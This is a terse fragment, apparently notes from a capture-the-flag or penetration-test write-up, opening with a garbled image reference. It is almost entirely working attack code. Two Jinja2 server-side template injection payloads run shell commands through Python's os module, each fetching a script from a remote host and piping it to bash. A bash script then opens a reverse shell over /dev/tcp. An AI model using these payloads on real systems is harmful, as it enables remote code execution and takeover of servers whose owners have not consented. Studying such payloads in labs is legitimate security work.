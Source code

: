 Proof:
{{request.application.__globals__.__builtins__.__import__('os').popen('curl IP/revshell | bash').read()}}

GET REV SHELL

FILE:

#!/bin/bash
bash -c "bash -i >& /dev/tcp/IP/1337 0>&1"

{{request.application.__globals__.__builtins__.__import__('os').popen('curl 172.20.10.6:8000/shell | bash').read()}}